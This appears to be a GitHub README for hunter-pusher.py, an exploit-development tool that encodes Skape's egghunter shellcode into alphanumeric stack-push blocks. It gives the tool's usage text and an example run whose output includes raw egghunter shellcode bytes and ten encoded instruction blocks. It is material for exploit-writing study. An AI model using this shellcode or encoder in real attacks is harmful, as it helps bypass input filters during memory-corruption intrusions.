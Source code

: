 ## hunter-pusher.py
**hunter-pusher.py** is an experimental alphanumeric egghunter encoder. This tool allows the user to generate one of several egghunters listed in Skape's (Matt Miller's) <a href="http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf" target="_blank">paper</a> titled, _Safely Searching Process Virtual Address Space_, with several customization options. These options include user-defined padding bytes, tag, and bad characters to exclude.  

The output is formatted in blocks to represent the manipulation of the **eax** register reproducing four bytes of the chosen egghunter at a time. This egghunter encoding technique is used in situations where the attacker's raw egghunter is corrupted in memory. Details are covered in this Corelan <a href="https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/" target="_blank">article</a> and piggybacked in a personal <a href="https://datkev.github.io/page/building-an-alphanumeric-encoder-part-1" target="_blank">blog post</a>.

Feedback is always welcome.



# Usage
```
usage: hunter-pusher.py [-h] [-b BAD CHARS] [-e #] [-p PAD] [-t TAG]

Alphanumeric egghunter stack pusher

optional arguments:
  -h, --help            show this help message and exit
  -b BAD CHARS, --bad BAD CHARS
                        Bad characters to exclude in payload
                        e.g. '\x00\xb4\xd9'
                        Default: Non-alphanumeric characters
  -e #, --egghunter #   Specific egghunter to encode:
                        0: Windows - SEH - 60 bytes
                        1: Windows - IsBadReadPtr - 40 bytes
                        2: Windows - NtDisplayString - 32 bytes
                        3: Windows - NtAccessCheckAndAuditAlarm - 32 bytes
                        4: Linux - access(2) - 40 bytes
                        5: Linux - access(2) revisited - 36 bytes
                        6: Linux - sigaction(2) - 32 bytes
                        Default: 2
  -p PAD, --pad PAD     Byte to pad egghunter with before encoding
                        e.g. '\x90'
                        Default: \x90
  -t TAG, --tag TAG     Four byte tag that egghunter will search for
                        e.g. 'w00t'
                        Default: w00t
```



# Example

**./hunter-pusher.py -b '\x00\x0a\x0d\xd3\xad\xb3\x3f\xff' -e 1 -p '\x41' -t 'w00t'**

These flags specify the generation of an **IsBadReadPtr** egghunter padded with "\x41", using a tag "w00t".
Bad characters as specified by the user will be excluded from the egghunter and will not appear in the _raw form_ (after blocks are pushed onto the stack).

```
Raw egghunter bytes: 33DB6681CBFF0F436A0853B80D5BE777FFD085C075ECB8773030748BFBAF75E7AF75E4FFE7414141

******BLOCK 0*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x5d\x3d\x3e\x3e
\x2d\x5e\x40\x40\x40
\x2d\x5e\x40\x40\x40
\x50
******BLOCK 1*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x70\x2d\x5e\x55
\x2d\x70\x2e\x5e\x55
\x2d\x71\x2e\x5f\x55
\x50
******BLOCK 2*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x57\x6f\x2d\x5d
\x2d\x57\x70\x2e\x5d
\x2d\x57\x70\x2e\x5e
\x50
******BLOCK 3*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x45\x45\x2e\x26
\x2d\x45\x45\x2e\x27
\x2d\x46\x45\x2f\x27
\x50
******BLOCK 4*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x2e\x5b\x6c\x2d
\x2d\x2e\x5c\x6d\x2d
\x2d\x2f\x5c\x6d\x2d
\x50
******BLOCK 5*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x55\x64\x28\x6a
\x2d\x56\x65\x28\x6a
\x2d\x56\x65\x29\x6b
\x50
******BLOCK 6*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x51\x36\x5d\x2d
\x2d\x51\x37\x5d\x2d
\x2d\x51\x37\x5e\x2d
\x50
******BLOCK 7*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x32\x52\x39\x6d
\x2d\x32\x52\x39\x6d
\x2d\x32\x53\x3a\x6d
\x50
******BLOCK 8*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x67\x55\x4f\x3e
\x2d\x67\x55\x50\x3e
\x2d\x67\x55\x50\x40
\x50
******BLOCK 9*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x44\x61\x32\x2a
\x2d\x44\x61\x33\x2a
\x2d\x45\x62\x33\x2a
\x50
```



# Credits
This tool uses a Python translation of <a href="https://github.com/gap-system/gap/blob/master/lib/combinat.gi" target="_blank">combinat.gi</a> from <a href="https://www.gap-system.org/index.html" target="_blank">GAP</a>, an open-source system for computational discrete algebra used in research and teaching.



# Creation Process
The creation of **hunter-pusher.py** is documented in the Building an Alphanumeric Encoder series at: <a href="https://datkev.github.io" target="_blank">https://datkev.github.io</a>

<a href="https://datkev.github.io/page/building-an-alphanumeric-encoder-part-3" target="_blank">Part 3</a> of the series is dedicated to code logic.
